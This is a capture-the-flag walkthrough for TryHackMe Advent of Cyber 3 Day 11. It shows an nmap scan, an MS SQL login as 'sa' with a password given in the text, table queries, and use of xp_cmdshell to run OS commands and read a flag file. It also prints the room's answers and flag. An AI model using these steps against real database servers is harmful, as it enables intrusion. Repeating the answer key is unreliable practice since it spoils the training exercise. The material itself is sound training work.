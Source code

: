 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 11
### References
* Tib3rius. (2021). TryHackMe - Advent of Cyber 3 - Day 11 Walkthrough [YouTube Video]. In YouTube. https://youtu.be/VJ2YFzTMqNY

## There is an open port related to MS SQL Server accessible over the network. What is the port number?
```bash
$ nmap -Pn <MACHINE_IP>
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

**Answer**: `1433`
## Let’s try to run `sqsh -S <MACHINE_IP> -U sa -P t7uLKzddQzVjVFJp`. If the connection is successful, you will get a prompt. What is the prompt that you have received?
```bash
$ sqsh -S <MACHINE_IP> -U sa -P t7uLKzddQzVjVFJp
1>
```

**Answer**: `1>`
## What is the first name of the reindeer of id 9?
```sql
1> SELECT * FROM reindeer.dbo.names;
2> go
 id  first     last       nickname   
 --- --------- ---------- -----------
   1 Dasher    Dasher     Dasher     
   2 Dancer    Dancer     Dancer     
   3 Prancer   Prancer    Prancer    
   4 Vixen     Vixen      Vixen      
   5 Comet     Comet      Comet      
   6 Cupid     Cupid      Cupid      
   7 Donner    Donder     Dunder     
   8 Blitzen   Blixem     Blitzen    
   9 Rudolph   Reindeer   Red Nosed  
```

**Answer**: `Rudolph`
## Check the table `schedule`. What is the destination of the trip scheduled on December 7?
```sql
1> SELECT * FROM reindeer.dbo.schedule;
2> go
 id       date                destination   notes  
 -------- ------------------- ------------- -------
     2000 Dec  5 2021 12:00AM Tokyo         NULL   
     2001 Dec  3 2021 12:00AM London        NULL   
     2002 Dec  1 2021 12:00AM New York      NULL   
     2003 Dec  2 2021 12:00AM Paris         NULL   
     2004 Dec  4 2021 12:00AM California    NULL   
     2005 Dec  7 2021 12:00AM Prague        NULL   
     2006 Dec 11 2021 12:00AM Bangkok       NULL   
     2007 Dec 10 2021 12:00AM Seoul         NULL   
```

**Answer**: `Prague`
## Check the table `presents`. What is the quantity available for the present `Power Bank`?
```sql
1> SELECT * FROM reindeer.dbo.presents;
2> go
 id     name               quantity   
 ------ ------------------ -----------
    100 Blanket                    500
    101 Laptop                    1000
    102 Cooler                     250
    103 BT Speaker                1000
    104 THM Subscription        100000
    105 Alarm Clock                500
    106 Cookies                  10000
    107 THM T-Shirt             100000
    108 Power Bank               25000
    109 USB Hub                  15000
```

**Answer**: `25000`
## There is a flag hidden in the `grinch` user's home directory. What are its contents?
* From previous TryHackMe Windows challenges, the `flag.txt` file is usually under the `Documents` or `Desktop` directories.
```cmd
1> xp_cmdshell 'dir C:\Users\grinch';
2> go
		11/10/2021  02:22 AM    <DIR>          3D Objects
		11/10/2021  02:22 AM    <DIR>          Contacts
		11/10/2021  02:22 AM    <DIR>          Desktop
		11/10/2021  02:29 AM    <DIR>          Documents
		11/10/2021  02:22 AM    <DIR>          Downloads
		11/10/2021  02:22 AM    <DIR>          Favorites
		11/10/2021  02:22 AM    <DIR>          Links
		11/10/2021  02:22 AM    <DIR>          Music
		11/10/2021  02:22 AM    <DIR>          Pictures
		11/10/2021  02:22 AM    <DIR>          Saved Games
		11/10/2021  02:22 AM    <DIR>          Searches
		11/10/2021  02:22 AM    <DIR>          Videos
1> xp_cmdshell 'dir C:\Users\grinch\Documents';
2> go
		11/10/2021  02:28 AM                21 flag.txt
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';
2> go
		THM{YjtKeUy2qT3v5dDH}
```

**Flag**: `THM{YjtKeUy2qT3v5dDH}`